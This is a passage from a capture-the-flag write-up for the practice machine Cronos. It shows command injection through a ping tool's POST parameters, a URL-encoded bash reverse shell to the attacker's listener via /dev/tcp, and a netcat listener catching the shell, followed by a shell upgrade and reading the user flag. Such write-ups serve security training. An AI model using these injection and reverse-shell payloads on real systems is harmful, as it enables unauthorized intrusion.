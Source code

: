     command=ping+-c+1&host=10.10.14.24
    

It seems that the webserver is likely taking the command and the host and concatenating them together and then executing it. If that’s true, I can probably inject into either parameter. I’ll send that request over to repeater, and set the POST parameters to:

    command=ls -l&host=/var/www
    

The response includes:

    drwxr-xr-x  2 www-data www-data 4096 Jul 27  2017 admin<br>
    drwxr-xr-x  2 www-data www-data 4096 Jul 27  2017 html<br>
    drwxr-xr-x 13 www-data www-data 4096 Apr  9  2017 laravel<br>
    

### Shell

To turn that command injection into a shell, I’ll just give it a reverse shell payload:

    command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=
    

And catch a shell on a listener:`nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.13.
    Ncat: Connection from 10.10.10.13:36196.
    bash: cannot set terminal process group (1388): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@cronos:/var/www/admin$
    

I’ll do the shell upgrade:

    www-data@cronos:/var/www/admin$ python -c 'import pty;pty.spawn("bash")'
    python -c 'import pty;pty.spawn("bash")'
    www-data@cronos:/var/www/admin$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# nc -lnvp 443  # i entered fg
                                                           reset
    

And can grab from the only homedir:`user.txt`

    www-data@cronos:/home/noulis$ cat user.txt 
    51d23643************************
    

## Priv: www-data –> root

### Enumeration

I’ll go into my local [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) directory and start a Python3 webserver. Then I can grab it from Cronos:

